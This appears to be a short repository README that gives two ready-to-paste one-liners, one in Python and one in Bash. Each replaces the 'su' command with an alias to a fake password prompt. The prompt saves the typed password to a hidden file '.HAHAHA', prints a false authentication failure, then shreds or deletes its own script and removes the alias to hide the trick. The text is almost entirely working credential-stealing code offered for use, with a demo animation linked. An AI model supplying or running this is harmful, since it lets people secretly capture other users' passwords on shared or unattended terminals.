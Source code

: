 # Python
```
echo -e "import getpass\npassword = getpass.getpass('Password: ')\nprint('su: Authentication failure')\ntxt = open('.HAHAHA','w')\ntxt.writelines(password)" > hihihi.py ; alias su="python hihihi.py ; shred -n10 hihihi.py ; rm -f hihihi.py ; unalias su "
```
# Bash
add '$' before the second 'OOO'
```
echo -e "\nread -p 'Password: ' -s OOO \necho OOO >.HAHAHA \necho '' \necho 'su: Authentication failure'" >hohoho.sh ; alias su="bash hohoho.sh ; rm -f hohoho.sh ; unalias su "
```
# Presentation
![](https://user-images.githubusercontent.com/95902084/230618049-3e661e5f-a4a1-4ead-a02c-1418bde92452.gif)
